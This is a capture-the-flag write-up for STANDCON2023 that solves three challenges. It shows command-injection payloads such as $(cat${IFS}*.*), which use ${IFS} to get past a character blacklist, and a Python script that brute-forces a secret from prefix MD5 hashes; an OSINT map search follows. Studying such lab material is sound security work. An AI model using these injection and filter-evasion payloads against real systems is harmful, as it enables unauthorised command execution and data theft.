



# STANDCON2023 CTF Writeups

## Table Of Contents

1. [Web Baby](#web-baby)
2. [Ye Olde News Website](#ye-olde-news-website)
3. [Relic Race](#relic-race)

## Web Baby

The website contains a function to ping an IP Address. Looking through the source code, we can deduce that multiple restrictions are set, namely:

1. Input cannot be longer than 15 characters
2. Many special characters are blacklisted

The characters below are the few that are not blacklisted:

* {}, (), $

​​

Notice how the code takes our user input without sanitizing it. This makes the program vulnerable to **command injection**. After searching through cheatsheets such as **payloadallthethings**, I eventually found out  *$()*  can be used for command injection.

​`$(whoami)`​: *bad address 'baby_web'*

​`$(pwd)`​: *bad address '/'*

​`$(ls)`​: *no result was shown, hinting that all files and directories are hidden in '/'*

​`$(ls${IFS}*)`​: *ls: can't open 'root': Permission denied*

As I was unsure of where the flag was located, and was unable to list the directory, I looked into alternatives to ls, and managed to find this [article/blogpost](https://ubunlog.com/en/alternativas-al-comando-ls/). In the article, I found this:

```
for **list hidden files** we will execute:
	echo *.*
```

After using \*.* with the payload `$(ls${IFS}*.*)`​, we received the output *bad address 'flag.txt'*

Replace ls with cat to get the flag! `$(cat${IFS}*.*)`​ *bad address 'STANDCON{1nj3ct1On_@+_uR_c0MM@Nd}'*

NOTE: `$(cat${IFS}fla*)`​ can be used as well, so long as the **payload is &lt;= 15 characters**.

## References:

https://semgrep.dev/docs/cheat-sheets/go-command-injection/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/

https://security.stackexchange.com/questions/219605/command-injection-filtering-bypass

https://www.cobalt.io/blog/a-pentesters-guide-to-command-injection

## Ye Olde News Website

These are the directories of interest found after examining the JavaScript on the web application:

```javascript
<script id="setup">
let HOST = "/"
let params = (new URL(document.location)).searchParams;
let article = params.get("article");
document.getElementById('title').innerHTML = article.split(".")[1];

fetch(HOST+'dir?category=article')
   .then(response => response.text())
   .then(text => document.getElementById("articleList").innerHTML=text)

setTimeout(() => {
fetch(HOST+"getArticle?maxlength=200&name="+article)
   .then(response => response.text())
   .then(text => document.getElementById("content").innerHTML=text.replace(/\\n/g,"<br>").slice(1, -1) + '...<br><br><b>Subscribe to read more!</b>')

document.getElementById('setup').remove();
},1000)
</script>
```

/dir?category=.

* use '.' to list out files since most filenames contain that character

  ​​

/getArticle?maxlength=10000&name=article3.secret.txt

* get the text itself without it being cut off.
* maxlength grabs the first x number of characters specified in the url variable.	​

Confidential articles are not to be read as shown below. Only the hash of such files are provided. Since the hash of the file constantly changes based on the maxlength variable, which is the first x number of characters in the file, we can use that to brute force the flag.

​​

​​

Grab the hash of the flag when max length = 10. This is because we already know the first 9 characters of the flag, `STANDCON{`​. Thus, we only need to brute force from the 10th character onwards.

Append all possible characters to the current flag, hash that appended text via md5 and compare hashes. A POC is provided below:

```python
#!/usr/bin/python3
import sys
import hashlib
# Use the latest hash and the current flag you possess to brute force the NEXT CHARACTER in the flag.
# Eg. md5 hash of first 10 chars of the flag as argument1, first 9 characters of flag as argument2.
currenthash = sys.argv[1]
currentflag = sys.argv[2]
wordlist='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_=+\\|~`[]{}'

for x in wordlist:
	newflag = currentflag + x
	hashedNewFlag = hashlib.md5(newflag.encode('UTF-8')).hexdigest()
	if(hashedNewFlag == currenthash):
		print("Latest Character Found!")
		print("Flag: " + newflag)
```

flag: STANDCON{Y3_0LD3_S1MPL3_FL4G}

​​

References:

https://stackoverflow.com/questions/1009860/how-can-i-read-and-process-parse-command-line-arguments

## Relic Race

We were provided a screenshot of the thief's device. It contains an image of a QR Code, and satellite map image of an unknown location.

​​

Decode the qr code using this website:

* https://products.aspose.app/barcode/recognize#/recognized
* M1BOSCO/MARK MR       1A11A1 SINLHRBN XXX  331Y26J 37    00

from the ticket, my team initially deduced that Mark is going from Singapore to Harbin. However, that is NOT the location in the image because China drives on the right side of the road, not the left as shown in the image.

After using chatGPT, we eventually realised Mark is travelling from London Heathrow to Singapore.

​​

As the hint leads to overpass turbo, a graphical mapping tool which utilises openstreetmaps, I utilised a script I found to locate all **gas stations near banks** in London Heathrow.

```
<!--
This is an example Overpass query.
Try it out by pressing the Run button above!
You can find more examples with the Load tool.
-->
<query type="node">
  <has-kv k="amenity" v="bank"/>
  <bbox-query {{bbox}}/>
</query>
<query type="node">
  <around radius="300"/>
  <has-kv k="amenity" v="fuel"/>
</query>

<print/>
```

Search all located nodes found, 17 in my case, and you will eventually find the exact location as shown in the initial **screenshot.png** file provided to us.

​​

​​

Grab the coordinates and place it into google maps to double check:

​​

Try the postal code of both the bank and the fuel station. In the end, the postal code of the fuel station is the correct answer for the flag.

* 312 Seven Sisters Rd, Greater, Finsbury Park, London N4 2AW, United Kingdom
* STANDCON23{N4 2AW}

## References

https://help.openstreetmap.org/questions/33089/proximity-search-node-with-tag1-near-node-with-tag2

https://wiki.openstreetmap.org/wiki/Map_features#Aerialway

‍
